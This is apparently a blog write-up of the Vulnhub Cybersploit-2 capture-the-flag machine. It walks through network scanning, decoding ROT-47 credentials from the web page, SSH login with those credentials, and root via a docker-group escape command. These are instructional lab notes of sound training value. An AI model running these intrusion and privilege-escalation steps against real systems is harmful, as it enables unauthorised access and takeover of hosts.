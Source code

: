 ```yaml
---
title: Vulnhub - Cybersploit-2 | EN
author: batmanly
date: 2023-03-15 10:10:00 +3
categories: [Writeup, Vulnhub, Cybersploit]
tags: [web, writeup, rot-47, docker, previlege_escalation, cybersploit-2]
render_with_liquid: false
---
```


# Information

-   **Name:** `Cybersploit-2`
-   **Profile:** [`Cybersploit-2`](https://www.vulnhub.com/entry/cybersploit-2,511/)
-   **Difficulty:** Easy
-   **Description**: THIS IS A MACHINE FOR COMPLETE BEGINNER , THERE ARE THREE FALGS AVAILABLE IN THIS VM. FROM THIS VMs YOU WILL LEARN ABOUT ENCODER-DECODER & EXPLOIT-DB.

# Write-up

## Overview
It’s a nice room , you can learn encoding/decoding and privilege escalation with docker.

## Network enumeration

let's start finding ip address of the machine than we will enumeration port and services with Nmap.

```bash
sudo arp-scan -l -I vboxnet0
```
![[]](/assets/img/vulnhub/cybersploit/cybersploit-2/img.png)

### Port and service scan with Nmap:
after finding ip of our cybersploit-2 machine we can now start scanning network.
```bash
sudo nmap -sV -T4 -sS -v -Pn -p- 192.168.56.103 -sC -oN nmap3 
```

we found there is 2 port is open , let's enumerate web services and if there is a weakness we will exploit this vulnerabilities.
```
22/tcp open  ssh     OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 ad6d15e744e97bb85909195cbdd66b10 (RSA)
|   256 d6d5b45d8df95e6f3a31ad8180349b12 (ECDSA)
|_  256 69794f8c90e9436c17f731e8ff870531 (ED25519)
80/tcp open  http    Apache httpd 2.4.37 ((centos))
| http-methods: 
|   Supported Methods: POST OPTIONS HEAD GET TRACE
|_  Potentially risky methods: TRACE
|_http-title: CyberSploit2
|_http-server-header: Apache/2.4.37 (centos)
MAC Address: 08:00:27:2B:42:7D (Oracle VirtualBox virtual NIC)

```

## Web enumeration

let's look website. after i started searching website inside view-source i found hint `rot-47` so after that i started looking something similar rot-47 encoding .

```
view-source:http://192.168.56.103/
```
![[]](/assets/img/vulnhub/cybersploit/cybersploit-2/img_1.png)

on the page there is table username and password , we could also try to brute force with this username and passwords but realize there is something rot 47 encoding , so i try to decode this string with rot-47 decoder website.
![[]](/assets/img/vulnhub/cybersploit/cybersploit-2/img_2.png)

after copy and paste the username and password i found on the web page i get a decoded username and password for login with ssh.

```
D92:=6?5C2

4J36CDA=@:E`
```

![[]](/assets/img/vulnhub/cybersploit/cybersploit-2/img_3.png)

```
shailendra     cybersploit1
```

### Login with ssh
i successfully reach the shell with founded credentials. there is also hint about docker so let's investigate docker privilege escalation steps.
![[]](/assets/img/vulnhub/cybersploit/cybersploit-2/img_4.png)


## Privilege Escalation
### Elevation of Privilege : User to Root with docker

after finding hint i started looking around and i found that user is in docker group so we can use docker group and get shell as a root.

![[]](/assets/img/vulnhub/cybersploit/cybersploit-2/img_5.png)

because we don't have internet access on cybersploit-2 i will download alpine image on my local and save it , then upload it and load on cybersploit-2 machine , than try to get shell .

let's give a try.

### Download alpine and upload server for privilege escalation

we can download alpine by this command the latest version
```bash
docker pull alpine
```

![[]](/assets/img/vulnhub/cybersploit/cybersploit-2/img_6.png)

let's save alpine image .
```bash
sudo docker save -o alpine.docker alpine
```

now let's upload this image our cybersploit-2 machine than load.
```bash
updog -p 8000
```

```bash
curl -O http://192.168.56.1:8000/alpine.docker
```

load image inside docker

```bash
docker load -i alpine.docker
```

i tried this way but i got error ,
![[]](/assets/img/vulnhub/cybersploit/cybersploit-2/img_7.png)

so i connected machine to internet for access docker.io and dowlonad alpine image for us , then we can get shell over the docker .

### Change host adapter to Nat adapter
just go settings and add  another adapter .

![[]](/assets/img/vulnhub/cybersploit/cybersploit-2/img_8.png)



after that we can get shell with docker.

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

![[]](/assets/img/vulnhub/cybersploit/cybersploit-2/img_9.png)

![[]](/assets/img/vulnhub/cybersploit/cybersploit-2/root.gif)
Yep. Now we Got root. Thanks for reading until the end , if you have any feedback i will appreciate to get , knowing different ways to get root always good for me.
